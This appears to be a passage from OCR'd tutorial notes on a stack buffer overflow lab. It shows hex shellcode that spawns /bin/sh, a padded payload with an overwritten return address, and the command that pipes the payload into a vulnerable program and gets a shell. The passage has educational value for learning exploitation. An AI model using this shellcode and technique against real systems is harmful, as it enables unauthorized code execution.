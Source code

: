 ```
/vagrant
```

Let's dissect the entire command into parts:

```
$ cat shellcode ; printf %080d 0 ; echo $a
eb0e5f4831c0b03b4831f64831d20f05e8edffffff2f62696e2f736800ef
bead
0000000000000000000000000000000000000000000000000000000000000000000000000000000000e4ffffff7f0000
```

Convert hexdump into binary with reverse flag -r. In other words, we are reversing the process of what we did for shellcode and getting the executable of shellcode. Cat will echo back any input you give.
```
vagrant@vagrant-ubuntu-trusty-64:/vagrant$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; cat )
 �_H1��;H1�H1������/bin/sh!����helloworld
helloworld
```

name[64] should contain  ```�_H1��;H1�H1������/bin/sh!����000000000000000000000000000000000000000000000000000000000000000000```

the overwritten RBP is 0000000000000000

the return address is pointed to the beginning of name[64] at 0x00e4ffffff7f0000

### The Importance of Being Patched
Display the cmd, esp for all processes
```
CMD                              ESP
/sbin/init                  00000000
[kthreadd]                  00000000
[ksoftirqd/0]               00000000
[kworker/0:0]               00000000
[kworker/0:0H]              00000000
[rcu_sched]                 00000000
[rcuos/0]                   00000000
[rcu_bh]                    00000000
[rcuob/0]                   00000000
[migration/0]               00000000
[watchdog/0]                00000000
[khelper]                   00000000
[kdevtmpfs]                 00000000
[netns]                     00000000
[writeback]                 00000000
[kintegrityd]               00000000
[bioset]                    00000000
[kworker/u3:0]              00000000
[kblockd]                   00000000
[ata_sff]                   00000000
[khubd]                     00000000
[md]                        00000000
[devfreq_wq]                00000000
[kworker/0:1]               00000000
[khungtaskd]                00000000
[kswapd0]                   00000000
[vmstat]                    00000000
[ksmd]                      00000000
[fsnotify_mark]             00000000
[ecryptfs-kthrea]           00000000
[crypto]                    00000000
[kthrotld]                  00000000
[deferwq]                   00000000
```